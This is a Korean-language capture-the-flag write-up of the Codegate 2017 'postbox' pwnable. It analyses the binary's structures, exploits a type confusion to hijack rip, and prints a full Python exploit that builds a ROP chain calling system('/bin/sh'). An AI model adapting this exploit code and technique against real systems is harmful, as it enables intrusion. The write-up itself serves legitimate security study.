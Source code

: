 ```yaml
---
layout:     post
title:      "Codegate 2017 postbox write-up"
subtitle:   "codegate 2017 prequals pwnable"
date:       2018-04-09
author:     "NextLine"
header-img: "img/post-bg-2.png"
tags:
    - WriteUp
---
```


# Codegate 2017 PostBox WriteUp

### 1. Intro

분석에 애를 먹었으며 사실 아직까지 다 분석하지 못했다. 귀찮으니 분석하고싶을때 다시 해봐야겠다. 익스플로잇도 정말 감으로 했는데 oneshot을 쓰면 되는거였다. ㅠ


### 2. Binary & Vulnerability

static 바이너리라 ida FLIRT를 이용해 심볼을 복구해서 봤다.

Register / Un-Register / Edit -> Register
- name + "\x00" (12 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (90 byte)

Register / Un-Register / Edit -> Edit
- name + "\x00" (11 byte)
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (96 byte)

Create
- kind - atoi(64byte)
- price - atoi(128byte) (max : 1000000)
- info + "\x00" (11 byte)
- name + "\x00" (12 byte)
- phone + "\x00" (14 byte)
- zipcode + "\x00" (7 byte)
- address + "\x00" (98 byte)
- payment - atoi (4 byte)

Change
- name + "\x00" (11 byte)
  - summary : ' to '를 찾아서 거기서부터 10바이트 붙여넣음.
- phone + "\x00" (15 byte)
- zipcode + "\x00" (6 byte)
- address + "\x00" (100 byte)
- payment - atoi(4 byte)

0x4009d0 (이건 함수하나에 대해 분석)
- malloc(40) - box
- box -> manage =malloc(0x300)
- box -> chunk_size = 0x300
- box -> use = 48
- box -> manage -> chunk = box -> manage -> chunk_data[0xf0 * i]

```c
### Struct ###

struct Box{
	Box_chunk_manage *manage;
	__int64 chunk_size;
	__int64 use;
	__int64 AAAA;
}

struct Box_chunk_manage{
	__int64 flag;
	__int64 chunk_count;
	__int64 *chunk[4];
	char chunk_data[0x2d0];
}

struct User_info{
	__int64 *user_vt;
	char name[16];
	char phone[16];
	char zipcode[16];
	char address[120];
	__int64 *vt2;
}

struct Res_info{
	char name[16];
	char phone[13];
	char zipcode[5];
	char address[90];
	__int32 pay;
}

struct Res_vtable{
	__int64 *edit_res_name;
	__int64 *edit_res_phone;
	__int64 *edit_res_zip;
	__int64 *edit_res_add;
	__int64 *make_summary;
}

struct Post_info{
	__int64 *box_vt;
	__int64 kind;
	Res_vtable res_vt;
	char post_info[16];
	char summary[24];
	Res_info res_info;
	__int64 price;
}
```

위처럼 분석을 했는데 큰 의미는 없었다. 이것저것 만지다보니 하나의 청크를 두개가 동시에 가르키고 있는 경우가 있어서, register과 post사이에 타입컨퓨전으로 인해 rip가 바뀔꺼라 예측하고 손퍼징으로 rip를 바꿨다..<br>익스플로잇은 적절히 바이너리 내에서 입력받는곳으로 rip를 바꾸고 스택에 입력을 받은뒤 rip를 더해 거기까지 가주고 rop chain을 구성해서 풀었다. 하지만 static에 system 함수에는 one_shot gadget이 존재한다. PPP는 그걸로 exploit 했던데 그생각을 못했다.



### 3. Exploit

```python
from ntpwn import *
import string

s = process('./postbox')
b = BP(s)
#b.bp64(0x2d8b)
b.bp64(0x7f07f)
b.done()
log.info("USER : " + hex(0x2c00))

def regi(name,phone,zipcode,address):
	s.sendlineafter('-> ','1')
	s.sendlineafter('-> ',name)
	s.sendlineafter('-> ',phone)
	s.sendlineafter('-> ',zipcode)
	s.sendlineafter('-> ',address)

def unregi():
	s.sendlineafter('->','1')
	s.sendlineafter('->','Y')

def create(kind,price,info,rec_name,rec_phone,rec_zipcode,rec_address,payment):
	s.sendlineafter('-> ','2')
	s.sendlineafter('-> ',kind)
	s.sendlineafter('-> ',price)
	s.sendlineafter('-> ',info)
	s.sendlineafter('-> ',rec_name)
	s.sendlineafter('-> ',rec_phone)
	s.sendlineafter('-> ',rec_zipcode)
	s.sendlineafter('-> ',rec_address)
	s.sendlineafter('-> ',payment)

def change(idx, content):
	s.sendlineafter('->','1')
	s.sendlineafter('->','n')
	s.sendlineafter('->','y')
	s.sendlineafter('->',idx)
	s.sendafter('->',content)
	s.sendlineafter('->','5')

def send(idx):
	s.sendlineafter('->','4')
	s.sendlineafter('->',idx)

regi('C' * 8,'A','A',p64(0x6D2BE0) * 11)
change('2','\xc0\x16\x40\x41' + "\x00" * 10)
create('8','10','NEXTLINEPOST', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')
send('1')

for i in range(5):
	create('8','10','NEXTLINE', 'B' * 9, 'C'* 9, 'D' * 5,'A'+'E' * 92,'Y')

unregi()
send('2')

read = 0x446360
system = 0x4129b0
prdi = 0x404346
prdxrsi = 0x4497b9
bss = 0x6d3400

payload = '\x46\x43\x40\xff' + p32(0) + p64(0) # prdi
payload += p64(prdxrsi) + p64(0x100) + p64(bss)
payload += p64(read)
payload += p64(prdi) + p64(bss)
payload += p64(system)

# send - 3 (change zipcode)
s.sendlineafter('->','4')
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','\x7f\xf0\x47')
s.sendlineafter('->','5')

# change - zipcode (call 0x401e10)
s.sendlineafter('->','3')
s.sendlineafter('->','3')
s.sendlineafter('->','2')
s.sendlineafter('->','A' * (0x88-5) + payload + 'A' * 0x80)
s.recvuntil('->')

pause()
# change - address (jmp add rsp, 0x68 ; ret)
s.sendlineafter('->','4')
s.recv(1024)
s.sendline('/bin/sh')

s.interactive()
```

